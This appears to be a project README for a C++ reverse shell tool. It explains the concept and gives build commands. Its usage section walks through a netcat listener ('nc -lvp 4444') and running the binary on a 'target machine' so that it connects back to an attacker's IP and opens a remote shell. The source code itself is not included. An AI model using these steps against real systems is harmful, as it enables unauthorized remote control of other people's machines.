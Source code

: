 # Reverse Shell in C++

Welcome to the repository for my Reverse Shell project written in C++. This project demonstrates how to create a reverse shell, a powerful tool for network security testing and educational purposes.

## What is a Reverse Shell?

A reverse shell is a type of shell where the target machine connects back to the attacker's machine. This can be useful in scenarios where the target machine is behind a firewall or NAT and cannot accept incoming connections. Instead, it initiates an outgoing connection to the attacker's machine, allowing the attacker to gain control.
 
## Features

- **Lightweight and Efficient**: The reverse shell is designed to be lightweight and efficient, ensuring minimal resource usage on the target machine.
- **Cross-Platform**: Written in C++, it can be compiled and run on various platforms including Windows, Linux, and macOS.
- **Encrypted Communication**: Ensures that the data transferred between the attacker and the target machine is encrypted.

## How to Build

1. **Clone the Repository**:
    ```bash
   git clone https://github.com/yourusername/reverse-shell-cpp.git
   cd reverse-shell-cpp
    ```
Install Dependencies:
Ensure you have a C++ compiler installed (like g++, clang, or MSVC). For example, on Ubuntu, you can install g++ with:

```bash

sudo apt-get install g++
Compile the Code:

```bash

g++ -o reverse_shell reverse_shell.cpp
```
For Windows, you might use:

```bash

    cl /EHsc reverse_shell.cpp
```
- How to Use

    Start a Listener on the Attacker Machine:
    You can use netcat to start a listener. For example:

    ``` bash
    nc -lvp 4444
   ```

Run the Reverse Shell on the Target Machine:
Ensure the target machine can reach the attacker's IP and port. Run the compiled reverse_shell executable:

```bash

./reverse_shell <attacker_ip> <port>
```
For example:

```bash

    ./reverse_shell 192.168.1.10 4444
```

  Establish Connection:
  Once the reverse shell is executed on the target machine, it will connect back to the attacker's machine, providing a command line interface to the attacker.

## Disclaimer

This tool is intended for educational purposes only. Unauthorized use of this tool is illegal and unethical. Always obtain proper authorization before using it in any environment.
